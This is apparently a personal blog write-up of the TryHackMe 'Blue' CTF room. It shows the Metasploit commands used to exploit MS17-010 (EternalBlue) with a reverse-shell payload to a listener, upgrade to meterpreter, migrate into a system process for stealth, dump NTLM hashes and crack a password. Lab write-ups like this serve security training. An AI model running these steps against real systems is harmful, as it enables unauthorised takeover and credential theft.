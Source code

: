 ```yaml
---
title: "Blue"
date: 2025-06-10
draft: false
summary: "Writeup for Blue CTF challenge on TryHackMe."
tags: ["windows", "smb", "rce"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/blue/cover.webp"
  caption: "Blue TryHackMe Challenge"
  alt: "Blue cover"
platform: "TryHackMe"
---
```


Deploy & hack into a Windows machine, leveraging common misconfigurations issues.
<!--more-->
To access the machine, click on the link given below:
- https://tryhackme.com/room/blue

## Scanning

I performed an **nmap** scan to find open ports and the services running on them.

```shell
nmap -sV TARGET --min-rate 10000 -oN blue.nmap -Pn
```

![](https://cdn.ziomsec.com/blue/1.webp)

I ran a vulnerable script scan for **SMB** and found that the target was vulnerable to **MS17-010**.

```shell
nmap -p 139,445 --script=vuln TARGET -T5
```

![](https://cdn.ziomsec.com/blue/2.webp)

## Foothold

I started metasploit and selected the exploit for this vulnerability.

```shell
msfconsole
use windows/smb/ms17_010_eternalblue
```

![](https://cdn.ziomsec.com/blue/3.webp)

I then configured the listener IP (`LHOST`), Target IP (`RHOSTS`) and Payload (`windows/x64/shell/reverse_tcp`) and ran the exploit to get a reverse shell

```shell
set LHOST LISTENER_IP
set RHOST TARGET_IP
set Payload windows/x64/shell/reverse_tcp
run
```

![](https://cdn.ziomsec.com/blue/4.webp)

Now, to upgrade this shell to meterpreter, I pressed `CTRL + Z` and ran the `shell_to_meterpreter` post module

```shell
# press CTRL+Z to background the session
use post/multi/manage/shell_to_meterpreter
set session ID
run
```

![](https://cdn.ziomsec.com/blue/5.webp)
![](https://cdn.ziomsec.com/blue/6.webp)

Finally, I spawned a **meterpreter** session and got **NT AUTHORITY/SYSTEM** access on the target.

```shell
sessions -i METERPRETER_ID
```

![](https://cdn.ziomsec.com/blue/7.webp)

I listed the running processes. Migrating to a legitimate process would make our exploit more stealthy so I migrated to **wininit.exe**.

```shell
ps
migrate WININT_PID
```

![](https://cdn.ziomsec.com/blue/8.webp)

![](https://cdn.ziomsec.com/blue/9.webp)

Finally, I used **`hashdump`** to dump NTLM hashes from the target.

```shell
hashdump
```

![](https://cdn.ziomsec.com/blue/10.webp)

I then cracked the hash of Jon using **Crackstation**.

![](https://cdn.ziomsec.com/blue/11.webp)

I then searched for all the flags that we had to capture and accessed them.

```shell
search -f "flag1.txt"
search -f "flag2.txt"
search -f "flag3.txt"
```

![](https://cdn.ziomsec.com/blue/12.webp)

![](https://cdn.ziomsec.com/blue/13.webp)

## Closure

Here's a short summary of how I pwned **Blue**:
- **nmap** scan revealed SMB service running on the target.
- I enumerated the SMB version using **nse** scripts and found it was vulnerable to ms17-010
- I used **metasploit** to exploit the SMB vulnerability and got a generic shell as NT Authority/System
- I upgraded this shell to meterpreter using **metasploit**'s `shell_to_meterpreter` post module.
- I then dumped user hashes and captured all three flags.

That's it from my side!
Until next time :)

---
